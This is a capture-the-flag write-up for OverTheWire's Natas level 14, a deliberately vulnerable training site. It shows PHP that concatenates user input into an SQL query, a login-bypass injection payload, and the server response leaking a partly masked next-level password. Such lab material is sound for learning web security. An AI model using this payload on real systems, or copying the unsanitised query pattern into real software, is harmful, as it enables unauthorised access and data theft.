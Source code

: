 # level 14

**Host**: http://natas14.natas.labs.overthewire.org
>natas14:z3UYcr4v4uBpeX8f7EZbMH**********

When you visit the site, you will be prompted for a username and a password:

```
Username:
Password:
```

### Solution:

When you click on the "View source" link you get following php code:

```php
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>
```

The interesting part is the SQL query, which does not filter the users input.

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

We can use a simple sqli login bypass to get the password for natas15. Provide `natas14` as username and `"OR 1=1 -- -` as password (⚠️ [dangerous!](https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/)) to grab the password for natas15 from the response.

```html
HTTP/1.1 200 OK
Date: Thu, 04 Sep 2025 11:37:55 GMT
Server: Apache/2.4.58 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 974
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
</head>
<body>
<h1>natas14</h1>
<div id="content">
Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZ**********<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```